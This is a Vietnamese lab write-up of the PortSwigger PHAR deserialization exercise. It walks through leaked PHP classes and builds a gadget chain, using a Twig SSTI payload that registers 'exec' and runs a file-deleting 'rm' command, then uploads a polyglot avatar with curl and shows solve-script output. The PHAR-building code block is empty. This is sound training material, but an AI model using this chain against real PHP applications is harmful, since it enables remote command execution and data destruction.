






# Writeup LAB Using PHAR deserialization to deploy a custom gadget chain

## Goal
To solve the lab, delete the morale.txt file from Carlos's home directory.
## Khai thác
Đăng nhập với tư cách người dùng `wiener`

Và ở trang người dùng wiener có chức năng upload ảnh tiến hành upload anrhh bất kỳ nhưng nhận lại `Invalid Avatar`

Tiến hành upload file ảnh JPG thử và tôi thu được đường dẫn `cgi-bin/avatar.php?avatar=wiener` tôi tiến hành truy cập `cgi-bin/` thu được các mã nguồn như sau:

Và đáng chú ý 2 file `CustomTemplate.php~` và `Blog.php~` tiến hành phân tích sâu mã nguồn của 2 file này.
`CustomTemplate.php`
```php
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```
Nó có một lớp gọi `CustomTemplate` ngoài ra đặcc biệt còn có magic `__destruct()` nguy hiểm khi nó được gọi khi tập lệnh PHP dừng hoặc thoát và lúc này nó sẽ xóa tệp khỏi `CustomTemplate->lockFilePath()` tức là `templates/$CustomTemplate->template_file_path.lock` <br>
Hơn nửa hàm `isTemplateLocked()` nó sử dụng `file_exists($this->lockFilePath())` thuộc tính <br>
`Blog.php`
```php
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```
Trong mã nguồn `blog.php` nó sử dụng `twig` để render dữ liệu user người dùng bằng cách này nó có thể sử dụng SSTI để khai thác kèm theo magic `__wakeup()` tự động gọi trong quá trình giải mã dữ liệu chúng ta <br>
Với những thông tin trên, chúng ta có thể khai thác lỗ hổng SSTI (Server-Side Template Injection) và sử dụng luồng PHAR để thực thi mã từ xa ! <br>
Tải trọng đoạn mã PHP để tạo `CustomTemplate` và `Blog` chứa payload SSTI:
```php
<?php
class CustomTemplate {}
class Blog {}
$Object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$Object->template_file_path = $blog;
>
Tiếp theo tạo ra payload tệp PHAR
```php

```

Tiến hành upload file polygot vừa tạo lên và thực hiện `phar://wiener` để có thể kích hoạt được tập lệnh thực thi chúng ta
```
curl --http1.1 -v -X POST "https://0a2f0064036407f7817a2aab00fc0078.web-security-academy.net/my-account/avatar" \
  -b "session=0YIfeLJ0wg0Gc3XLeHESMIzZefrZymEU" \
  -F "csrf=inKKNIP2xJNFBgfMJPwBvIH8oAwjeU6N" \
  -F "avatar=@out.jpg;type=image/jpeg"
```
Hoặc tự đông hóa quá trình giải tôi viết tập lệnh python <a href="./solve.py">tại đây</a>
```
bl4ck0ut@DESKTOP-NC78VN5:/mnt/d/Downloads$ nano solve.py
bl4ck0ut@DESKTOP-NC78VN5:/mnt/d/Downloads$ python3 solve.py
[*] Found login token: csrf = HWkVWnaU...
[*] Login POST HTTP 200
    Cookies after login: {'session': 'jllB4tkL5hnCLmyOOtJYUgF6DzCP39CN'}
[+] Login successful
[*] Found upload token: csrf = 8MK3bRAq...
[*] Upload HTTP 200
[+] Upload successful
[*] Trigger HTTP 404
Not Found
[+] Trigger sent
bl4ck0ut@DESKTOP-NC78VN5:/mnt/d/Downloads$
```
Kết quả


